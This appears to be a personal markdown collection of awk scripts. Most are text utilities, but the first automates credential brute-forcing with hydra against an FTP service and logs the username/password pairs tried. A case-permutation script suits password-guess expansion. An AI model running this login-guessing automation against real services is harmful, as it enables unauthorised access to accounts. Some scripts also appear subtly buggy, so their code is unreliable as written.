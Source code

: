 # awk scripting
## attempt to reuse credentials using hydra and keep track of usernames and passwords tried
## read and write a separated value file as a database
~/kb/awk-scripting/hydra-bruteforce-with-database.awk
```awk
#!/usr/bin/awk -f
# attempt to reuse credentials using hydra and keep track of usernames and passwords tried
# read and write a separated value file as a database
## pass in parameter "type"

BEGIN {
  tried_database = "cred.dat"
  to_try = "to.try"
  FS=":"
  while (getline < tried_database) {
    print $1, $2
    users[$1] = 1
    passwords[$2] = 1
    tried[$1 FS $2] = 1
  }
  close(tried_database)
}
type ~ /u/ { users[$0] = 1 }
type ~ /p/ { passwords[$0] = 1 }
END {
  for (u in users) {
    for (p in passwords) {
      cred = u FS p
      done = cred in tried
      if (!done) {
        print "Trying " cred
        print cred > to_try
        print cred >> tried_database
      }
    }
  }
  close(to_try)
  command = "hydra -C to.try ftp://localhost"
  print command
  while (command | getline) {
    if ($0 ~ /login:.*password:/){
      print # found a password
    }
  }
}
```

## print all variations of spaces between tokens
~/kb/awk-scripting/space-invader.awk
```awk
#!/usr/bin/awk -f
# print all variations of spaces between tokens
function expand_rec(str, pos) {
  if (pos > NF) { # recursion base case - end of char array
    printf("%s\n", str "")
    return
  } else {
    expand_rec(str " " $pos, pos + 1)
    expand_rec(str "  " $pos, pos + 1)
    expand_rec(str "   " $pos, pos + 1)
    expand_rec(str "    " $pos, pos + 1)
  }
}
{
  expand_rec("", 1)
}
```

## print nested markdown content within headings
~/kb/awk-scripting/print-markdown-content-nested-in-heading.awk
```awk
# print nested markdown content within headings
#argument: line
#awk -v line=205 -f print-markdown-content-nested-in-heading.md "$HOME/PayloadsAllTheThings/Methodology and Resources/Active Directory Attack.md"
/^#+ / { lastheading = length($1) } # save # of #s in heading
NR == line { 
  pr = 1
  h = lastheading
}
/^$/ && pr { printedblank=1 }
## stop when we reach heading of equal or greater importance (less #s)
!block && NR > line && /^#+ / && length($1) < h { pr = 0 }
## stop if we reach another heading of equal importance if we've printed at least one blank line
printedblank && !block && NR > line && /^#+ / && length($1) == h { pr = 0 }
/^ *```/ { block = !block } # toggle being inside a code block
pr == 1 { print }
```

## get column headings from first line of CSV
~/kb/awk-scripting/get-columns.awk
```awk
#!/usr/bin/awk -f
# get column headings from first line of CSV
NR == 1 {
  split($0, arr, ",")
  for (i = 1; i < length(arr); i++) {
    print i, arr[i]
  }
}
```

## check output of grep and next line using awk "grep -A 1 -R '^# ' ."
~/kb/awk-scripting/file-grep-multi-lines.awk
```awk
#!/usr/bin/awk -f
# check output of grep and next line using awk "grep -A 1 -R '^# ' ."
$0 == "--" {
  nextline=1
  lastpart=NR
}
NR == lastpart + 1 {
  header=$0
}
NR == lastpart + 2 && $0 ~ /-$/ {
  print header, $0
}
```

## print all variations of upper and lower case for given lowercase string
~/kb/awk-scripting/toggle-case-combinatoric.awk
```awk
#!/usr/bin/awk -f
# print all variations of upper and lower case for given lowercase string
function toggle_rec(str, arr, pos) {
  if (pos > length($0)) { # recursion base case - end of char array
    printf("%s\n", str)
    return
  } else {
    toggle_rec(str arr[pos], arr, pos + 1) # always proceed with original string
    if (arr[pos] ~ /[a-z]/) # only switch case on alphabets
      toggle_rec(str toupper(arr[pos]), arr, pos + 1)
  }
}
{
  split($0, chars, "")
  toggle_rec("", chars, 0)
}
```

## autogenerate headings for source files
~/kb/awk-scripting/autogenerate-headings-for-source-files.awk
```awk
# autogenerate headings for source files
{
  file=$1
  gsub(/\.\//, "", file)
  heading=$3
  if (file in headings) headings[file] = headings[file] "\n"
  headings[file] = headings[file] "#" heading
}
END {
  for (file in headings) {
    print headings[file]
    print "~/kb/" file
    print "```" lang
    system("cat " file)
    print "```"
    print ""
  }
}
```

## awk print markdown snippet text between backtick lines
~/kb/awk-scripting/snippet.awk
```awk
# awk print markdown snippet text between backtick lines
BEGIN { printing = 0 }
printing == 1 && $0 !~ /^```/ {print}
/^```/ {
  if (printing == 0) {
    printing = 1
  } else {
    printing = 0
  }
}
```

